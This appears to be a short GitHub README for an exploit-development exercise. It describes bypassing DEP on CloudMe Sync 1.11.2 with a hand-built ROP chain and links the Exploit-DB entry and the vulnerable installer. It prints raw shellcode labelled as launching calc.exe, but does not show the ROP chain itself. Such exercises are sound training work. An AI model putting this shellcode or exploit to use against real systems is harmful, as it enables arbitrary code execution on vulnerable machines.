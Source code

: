 # ROPme
Bypass Data Execution Prevention (DEP) using ROP chains manually hard code




## i start from here : [https://www.exploit-db.com/exploits/46250]
## CloudMe Sync 1.11.2 vulnerable version : [https://www.exploit-db.com/apps/f0534b12cd51fefd44002862918801ab-CloudMe_1112.exe]
## ==> i use :
### = WINdbg
### = immunity Debugger
### = IDA pro 
### = SublimeText 
### = IDLE from python 
### = VirtualAlloc function (memoryapi.h) : https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc
### = and finaly the calculator shellcode :
```sh

# Shellcode calc.exe
shellcode = ""
shellcode += "\xdb\xde\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x31\xba\xef"
shellcode += "\xc3\xbd\x59\x83\xc0\x04\x31\x50\x14\x03\x50\xfb\x21"
shellcode += "\x48\xa5\xeb\x24\xb3\x56\xeb\x48\x3d\xb3\xda\x48\x59"
shellcode += "\xb7\x4c\x79\x29\x95\x60\xf2\x7f\x0e\xf3\x76\xa8\x21"
shellcode += "\xb4\x3d\x8e\x0c\x45\x6d\xf2\x0f\xc5\x6c\x27\xf0\xf4"
shellcode += "\xbe\x3a\xf1\x31\xa2\xb7\xa3\xea\xa8\x6a\x54\x9f\xe5"
shellcode += "\xb6\xdf\xd3\xe8\xbe\x3c\xa3\x0b\xee\x92\xb8\x55\x30"
shellcode += "\x14\x6d\xee\x79\x0e\x72\xcb\x30\xa5\x40\xa7\xc2\x6f"
shellcode += "\x99\x48\x68\x4e\x16\xbb\x70\x96\x90\x24\x07\xee\xe3"
shellcode += "\xd9\x10\x35\x9e\x05\x94\xae\x38\xcd\x0e\x0b\xb9\x02"
shellcode += "\xc8\xd8\xb5\xef\x9e\x87\xd9\xee\x73\xbc\xe5\x7b\x72"
shellcode += "\x13\x6c\x3f\x51\xb7\x35\x9b\xf8\xee\x93\x4a\x04\xf0"
shellcode += "\x7c\x32\xa0\x7a\x90\x27\xd9\x20\xfe\xb6\x6f\x5f\x4c"
shellcode += "\xb8\x6f\x60\xe0\xd1\x5e\xeb\x6f\xa5\x5e\x3e\xd4\x59"
shellcode += "\x15\x63\x7c\xf2\xf0\xf1\x3d\x9f\x02\x2c\x01\xa6\x80"
shellcode += "\xc5\xf9\x5d\x98\xaf\xfc\x1a\x1e\x43\x8c\x33\xcb\x63"
shellcode += "\x23\x33\xde\x07\xa2\xa7\x82\xe9\x41\x40\x20\xf6"
```
